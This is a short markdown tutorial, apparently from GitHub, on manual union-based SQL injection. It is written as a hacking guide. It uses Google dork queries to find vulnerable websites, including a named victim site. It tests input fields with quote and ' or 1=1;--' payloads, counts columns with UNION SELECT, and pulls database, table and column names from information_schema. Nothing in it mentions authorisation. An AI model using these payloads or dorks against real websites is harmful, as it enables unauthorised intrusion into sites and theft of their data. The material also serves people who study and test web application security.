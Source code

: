 # Manual Union Based Exploitation

## **Step 1: Finding Vulnerable Website: Google Dorks**

Our best partner for SQL injection is Google. We can find the Vulnerable websites(hackable websites) using Google Dork list. google dork is searching for vulnerable websites using the google searching tricks. There is lot of tricks to search in google. But we are going to use “inurl:” command for finding the vulnerable websites.

Some Examples:

**`inurl:gallery.php?id=`**

**`inurl:article.php?id=`**

**`inurl:pageid=`**

Note: if you like to hack particular website, then try this:

**`site:www.victimsite.com inurl:index.php?id=`**

## **Step 2: Check for the Vulnerability:**

- Either trigger some error by applying single quote(‘) or double quote (“) to the input field
- Or you can try some of the true condition so that it will show all the database contents

```bash
' or 1=1;--
```

- Or you can use **`Burpsuite Intruder`** to apply all the payloads and notice them.
- If the database respond to the commands by error or anything, take it as a vulnerable website

## **Step 3: To get some data back from server:**

As you find that the website is vulnerable try this queries after the SQL expression/commands

```sql
UNION SELECT
UNION SELECT 1,2
UNION SELECT 1,2,3
```

- *Try this until you get some data back from web server*
- Suppose you get data back from server when you use 3
- It means the table we are working with has 3 columns.
- Sometimes not all the columns are publicly exposed, they are being private.
- Now the query depends on the SQL database type and version
- Try to find out the database type like My-SQL, Oracle, SQLITE etc.
- GOOGLE for the specific database type documentation and craft you payload
- Retrieve the version and database if needed
- You can retrieve the information by using the columns that are publicly exposed

```sql
' UNION SELECT 1,2,database()
```

```sql
' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=<database_name>
```

```sql
' union select 1,2,group_concat(column_name) from information_schema.columns where table_name = <the_table_name>
```
